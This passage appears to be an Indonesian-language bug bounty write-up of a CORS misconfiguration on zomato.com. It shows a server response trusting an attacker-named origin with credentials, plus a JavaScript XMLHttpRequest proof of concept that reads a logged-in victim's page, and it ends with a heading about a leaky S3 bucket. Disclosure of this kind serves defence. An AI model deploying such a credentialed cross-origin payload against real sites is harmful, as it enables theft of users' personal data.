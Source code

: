 ```
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 127168
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block; report=https://www.zomato.com/cspreport.php
Content-Security-Policy: frame-ancestors https://.nearbuystag.in https://.nearbuy.com 'self'; default-src ; font-src data:; img-src data:; media-src blob:; script-src 'self' 'unsafe-inline' 'unsafe-eval' .jwpcdn.com .cloudflare.com .twitter.com .recruiterbox.com .zdev.net .zdev.net:8080 .zomato.com .tinymce.com .gstatic.com .googleapis.com .google.com .facebook.com sdk.accountkit.com .doubleclick.net .googlesyndication.com .nr-data.net .newrelic.com .google-analytics.com .akamaihd.net .zmtcdn.com .googletagmanager.com .facebook.net .googleadservices.com .cdninstagram.com .googlesyndication.com .inspectlet.com .spreedly.com .instagram.com .twimg.com .mouseflow.com .usersnap.com d3mvnvhjmkxpjz.cloudfront.net .serving-sys.com .sushissl.com .pubnub.com tsgw.tataelxsi.co.in .branch.io app.link cdn.poll-maker.com .ampproject.org .smartlook.com .hotjar.com dashboard.hypertrack.io zba.se .googletagmanager.com .eff.org cdn.plot.ly .zedo.com .bing.com .criteo.net .criteo.com mddigital.in; style-src 'unsafe-inline';
Access-Control-Allow-Origin: developersxzomato.com
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Content-Type, X-ZOMATO-CSRFT, *
Server: Zomato
Strict-Transport-Security: max-age=31536000
Expires: Sat, 20 Oct 2018 12:29:00 GMT
Pragma: no-cache
Date: Sat, 20 Oct 2018 12:29:00 GMT
Connection: close
Set-Cookie: LEL_JS=true; expires=Sat, 20-Oct-2018 12:59:00 GMT; Max-Age=1800
Cache-Control: max-age=0, no-cache, no-store, no-transform
Vary: Accept-Encoding, User-Agent
Strict-Transport-Security: max-age=31536000
Set-Cookie: bm_sv=EDBA03CA40AC8D77509922CAA98130B4~OXaAg7LsgySzeWnqd9TzoaW6pGtPv7Ut2dYfUp7otuPnD1uJi3BUwSCYQiDP4q92NaiK6GLXT8xxPmWSgspcRyYjatr3Zc5lDyt8+MMSsDnq267a1bOhniBmABAbrga8gmdQdjDNE5GsLvrlCcm07Q3hffJKqLj7hIkMIJhtw4g=; Domain=.zomato.com; Path=/; Max-Age=1053; HttpOnly

```

kemudian attacker pergi ke http://developersxzomato.com/ inspect halaman dan pergi ke console.

di console itu terdapat informasi seperti berikut :

```
var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://www.zomato.com/abudhabi',true); req.withCredentials = true; req.send('{}'); function reqListener() { alert(this.responseText); };
```

Impact dari kerentanan di atas adalah attacker dapat memanipulasi korban untuk mengunjungi website yang attacker buat, jika korban **tertipu** maka seluruh data pribadi milik korban akan tersimpan di server milik attacker.

### #1062803 Misconfigured AWS S3 bucket leaks senstive data such of admin, Prdouction,beta, localhost and many more directories....
